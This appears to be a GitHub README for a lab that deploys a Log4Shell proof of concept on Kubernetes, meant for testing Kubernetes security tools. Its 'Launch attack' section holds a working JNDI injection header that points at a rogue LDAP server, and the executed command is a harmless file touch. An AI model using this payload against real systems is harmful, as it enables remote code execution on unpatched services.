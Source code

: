 # log4shell-kubernetes

A log4shell proof of concept running on Kubernetes.

This is not different on running other POC, it's provided to test Kubernetes specific security tools.

It uses the following projects:
* https://github.com/christophetd/log4shell-vulnerable-app
* https://github.com/veracode-research/rogue-jndi

For more information, check:
* https://vicenteherrera.com/blog/log4j-part-i/

## Build and push docker images

**This step is optional**. You can build your own images if you want instead of using the ones pushed to quay.io.

```bash
git clone https://github.com/veracode-research/rogue-jndi.git
docker build ./rogue-jndi -t quay.io/vicenteherrera/rogue-jndi -f Dockerfile-rogue-jndi
docker push quay.io/vicenteherrera/rogue-jndi

git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t quay.io/vicenteherrera/quay.io/vicenteherrera/log4shell-vulnerable-app
docker push quay.io/vicenteherrera/log4shell-vulnerable-app
cd ..
```

The provided [Dockerfile-rogue-jndi](https://github.com/vicenteherrera/log4shell-kubernetes/blob/main/Dockerfile-rogue-jndi) in this repo is set up to executed on the compromised workload the command:

```bash
touch /root/test.txt
```

## Start Minikube

If you want to test this locally, you can use [Minikube](https://minikube.sigs.k8s.io/docs/) for example.

```bash
minikube start
```

## Deploy on Kubernetes

You can use the online YAML files that points to quay.io container images, no need to clone this repo if you don't need to modify them.

```bash
# vulnerable-log4j deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/vulnerable-log4j.yaml
# rogue-jndi deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/rogue-jndi.yaml
```

## Watch logs

```bash
# On different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

## Launch attack

```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
exit
```

## Check that the attack succeded on the vulnerable app

```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```

It should list `test.txt` if the attack is successful.

## More information

* My blog post at "The Vlog": [Log4j 2 vulnerabilities, part I: History](https://vicenteherrera.com/blog/log4j-part-i/)
* Follow me on Twitter: [@vicen_herrera](https://twitter.com/vicen_herrera)
